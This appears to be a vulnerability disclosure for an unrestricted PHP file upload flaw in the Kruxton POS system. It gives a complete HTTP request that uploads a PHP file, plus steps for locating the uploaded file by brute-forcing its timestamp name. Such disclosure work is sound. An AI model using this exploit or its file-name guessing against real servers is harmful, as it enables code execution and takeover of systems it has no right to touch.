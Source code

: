 1. Download sourcecode from https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

2. Deploy the system

3. The php file upload point is http://172.31.171.96/kruxton/ajax.php?action=update_account

4. The http message is 

   ```
   POST /kruxton/ajax.php?action=update_account&XDEBUG_SESSION_START=11078 HTTP/1.1
   Host: 172.31.171.96
   Content-Length: 698
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: null
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundary91u2mx53LUNjwQtX
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=trdjs8jl8md348msi4p8aq5tu9
   Connection: close
   
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="email"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="firstname"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="lastname"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="password"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="img"; filename="123.php"
   Content-Type: text/plain
   
   <?php phpinfo();?>
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="submit"
   
   提交
   ------WebKitFormBoundary91u2mx53LUNjwQtX--
   
   ```

   ![](https://github.com/paiqian/kruxton/blob/main/static/image-20230311152452601.png)

5. and then the system would create a php file in ./kruxton/assets/upload

   ![](https://github.com/paiqian/kruxton/blob/main/static/image-20230311151123673.png)

6. then access page http://172.31.171.96/kruxton/assets/uploads/1678518540_123.php

   ![image-20230311151402551](https://github.com/paiqian/kruxton/blob/main/static/image-20230311151402551.png)

   The format of the file name is the timestamp plus the file name of the upload. The value of the timestamp is the timestamp corresponding to the time of the upload moment. You can bursting it in the approximate range.

> notice: the user's username and password change to the values passed at upload time
